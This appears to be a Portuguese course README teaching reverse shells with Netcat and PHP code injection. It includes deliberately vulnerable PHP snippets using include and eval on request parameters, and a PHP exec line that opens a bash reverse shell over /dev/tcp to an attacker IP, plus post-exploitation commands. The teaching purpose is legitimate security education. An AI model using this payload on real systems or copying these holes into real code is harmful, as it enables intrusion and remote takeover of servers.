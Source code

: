 # Shell Reversa com NetCat e PHPinjection

➡️ [PDF da Aula](./pdf/shell_reversa.pdf) desenvolvido por [@robertovrf](https://github.com/robertovrf)

---

## 🌐 Pilha de Protocolos

A pilha de protocolos da Internet no Modelo TCP/IP é composta por cinco camadas:

<div align="center">
    <img src="https://dhg1h5j42swfq.cloudfront.net/2023/02/23210350/modelotcpip5.png"/>
</div>

Alguns protocolos se detacam no contexto de Shell Reversa, que são:

- **Camada de Aplicação**: protocolos como HTTP, SSH, FTP, SMTP, POP3, IMAP, SNMP.
- **Camada de Transporte**: protocolos **TCP** (orientado à conexão) e **UDP** (não orientado à conexão).

O **TCP** é frequentemente usado para estabelecer canais confiáveis para shells reversas.

---

## 📡 Netcat

O **Netcat** (`nc`) é uma ferramenta que permite ler e escrever dados pela rede usando TCP ou UDP.  
É amplamente usado para depuração, transferência de arquivos e, no contexto da segurança ofensiva, para criar conexões de shell reversa.

Exemplos de uso básico:

```bash
# Escutar conexões na porta 4444
nc -lvnp 4444

# Conectar-se a um host e porta específicos
nc <IP_ALVO> 80
```
---

## 💥 PHP Code Injection

Uma PHP Code Injection ocorre quando uma aplicação PHP executa código fornecido pelo usuário sem validação adequada.
Isso normalmente ocorre devido a:

- Falta de validação de entradas
- Uso inseguro de funções como `include`, `require`, `eval`, `exec`

Exemplo vulnerável com `include`:
```php
<?php
include($_GET['pagina']);
?>
```

Exemplo vulnerável com `eval`:

```php
<?php
$cmd = $_GET['cmd'];
eval($cmd);
?>
```
Este tipo de vulnerabilidade pode permitir execução arbitrária de comandos no servidor.

---

## 🔄 Shell Reversa

Uma shell reversa é uma conexão onde o servidor (alvo) conecta-se de volta ao atacante, permitindo que este tenha acesso interativo ao sistema de forma remota.

Fluxo básico com Netcat:

1. Atacante inicia Netcat no modo *listen*:
```bash
nc -lvnp 80
```

2. Alvo executa comando PHP para iniciar um bash e conectar ao atacante:
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.0.100/80 0>&1'");
?>
```

3. Atacante recebe a shell no terminal Netcat e pode executar comandos e explorar vulnerabilidades:

```bash
sudo -l
ls -la
whoami
```